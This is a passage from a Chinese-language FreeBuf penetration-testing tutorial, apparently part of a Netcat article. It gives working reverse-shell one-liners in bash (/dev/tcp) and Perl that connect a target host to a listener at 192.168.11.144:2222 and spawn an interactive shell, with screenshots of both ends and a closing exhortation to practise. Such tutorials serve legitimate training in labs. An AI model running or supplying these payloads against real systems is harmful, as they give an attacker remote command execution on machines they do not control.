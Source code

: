```
`bash -i>＆/dev/tcp/192.168.11.144/2222 0>＆1`
```

本地主机：

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237907578683.png!small" />](https://image.3001.net/images/20180415/15237907578683.png)

目标主机：

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237907722944.png!small" />](https://image.3001.net/images/20180415/15237907722944.png)

**Perl反向shell**

目标主机端执行语句：

```
`perl -e 'use Socket;$i="192.168.11.144";$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```

本地主机

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237912521506.png!small" />](https://image.3001.net/images/20180415/15237912521506.png)

目标主机

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237912635253.png!small" />](https://image.3001.net/images/20180415/15237912635253.png)

**注:书写的时候一定要注意这里单引号、双引号是英文格式的，不然会报错误！**

**总结：有一句话为温故而知新，同时又有一句话为实践出真知，当这两句话同时践行的时候，就会擦出不一样的火花，你会看到你之前未见到的，掌握到你之前生疏的技能！Netcat固然好用，但是也要经过实践才知道，那你还在等什么呢？**

***本文作者：Fly鹏程万里，转载请注明来自 FreeBuf.COM**
